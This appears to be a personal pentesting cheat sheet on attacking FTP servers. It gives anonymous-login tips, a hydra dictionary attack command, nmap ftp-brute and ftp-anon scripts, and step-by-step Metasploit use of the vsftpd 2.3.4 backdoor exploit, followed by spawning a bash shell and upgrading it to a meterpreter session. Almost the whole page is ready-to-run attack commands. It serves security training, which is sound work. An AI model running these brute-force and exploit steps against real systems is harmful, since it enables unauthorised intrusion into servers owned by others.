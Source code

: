 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. [hydra](#hydra)
	2. [nmap](#nmap)
	3. [msfconsole](#msfconsole)

---

# #Overview 
FTP - File Transfer Protocol

File sharing protocol used by different services

## #Ports
- 21 : Win/Lin : Main port for access

## Usage
`ftp 192.156.2.3`
- anonymous login
	- user: anonymous
	- pass: null : just hit enter

## Related Services
vsftp
SFTP
ProFTPD
IIS FTP

---

# #Tools
## #hydra
[Tool info - hydra](../Tools/Hydra.md)

Can use [SMTP](SMTP.md#msfconsole) if service is available to discover user account list.

Dictionary attack with *userlist* and *passlist*
- -t : threads
- -L : user File
- -P : pass File
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> -t 4 ftp
```

---

## #nmap
[Tool info - nmap](../Tools/NMAP.md)

Scripts
```bash
nmap <IP> --script ftp-brute --script-args userdb=/root/users -p 21
```
- --script
	- ftp-brute
		- `--sript-args userdb=/userlist.txt`
	- ftp-anon : checks for anonymous login

---

## #msfconsole
[Tool Info - MSF](../Tools/MSF.md)

1. `search type:exploit vsftpd`
2. `use exploit/unix/ftp/vsftpd_234_backdoor`
	1. info
	2. run : easy
	3. `/bin/bash -i` : launch bash session
	4. ctrl-z : to background the session
3. `search shell_to_meterpreter` : look for module to upgrade session
4. `use post/multi/manage/shell_to_meterpreter`
	1. `set LHOST eht1` : set to ip of interface eth1
	2. `set session 1` : set it to the session number for the shell connection
	3. `run`
5. `sessions -u 1` : to auto upgrade session to meterpreter
6. `sessions` : to show and then connect by specifying number
